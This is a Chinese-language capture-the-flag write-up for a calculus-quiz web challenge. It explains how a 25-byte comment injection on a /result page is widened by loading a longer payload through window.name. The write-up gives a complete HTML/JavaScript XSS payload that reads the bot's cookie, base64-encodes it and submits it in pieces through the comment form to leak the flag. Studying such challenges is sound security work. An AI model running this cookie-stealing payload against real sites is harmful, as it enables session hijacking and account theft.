 ## 微积分计算小练习 2.0

简单试一下发现 `/result` 这个页面是能注入代码的：

```
updateElement("#comment", "你留下的评论：<评论内容>");
```

但评论内容只有 25 字节。基本思路是从 bot 加载的网页跳转到这个页面，想办法传一个更长的字符串，用注入的一小段代码加载传入的字符串以注入更多代码。

最开始想法是用 URL 传代码，注入评论是 `"+location+"` 这样。但问题是 URL 里的特殊字符会被 quote，然后由于字符限制和长度限制又没法加上 `unescape` 函数。所以这个想法就行不通了。

后来查到 `window.name` 在页面跳转后是保留的，而且不会 quote 特殊字符。所以就用这个传字符串就好了。

注入评论是 `"+window["name"]+"`，用方括号访问 property 是为了绕开字符限制。然后 bot 访问的页面就是在 `window.name` 里塞要注入 HTML 和 JS code，跳转到 `/result` 页面就完成 XSS 了。

完整 HTML 如下，注入的代码把 base64-encoded cookie 的前 25 字节提交到评论：

```html
<body>
  <script>
    const script = `
    document.querySelector('textarea#comment').value = btoa(document.cookie).slice(0, 25);
    document.querySelector('button').click();
    `.replaceAll('\n', '');
    window.name = `<img src='#' onerror="${script}" />`;
    location = 'http://web/result';
  </script>
</body>
```

后面改一下 `slice` 的范围，重复注入评论、提交 HTML，访问下 25 个字符，直到读出来完整的 flag 就行了。

**插曲**：一开始跳转地址写的是 `http://202.38.93.111:10051/result`，本地测试没问题，提交上去就会卡住 bot 最后被 kill 掉。琢磨了很久才察觉出来 `calculus_quiz_bot.py` 里的 `http://web/` 不是 placeholder 而是 bot 实际使用的域名。bot 应该是在 Docker 里跑的，没法访问公网 IP，`web` 是跑微积分练习网页的容器的名字。
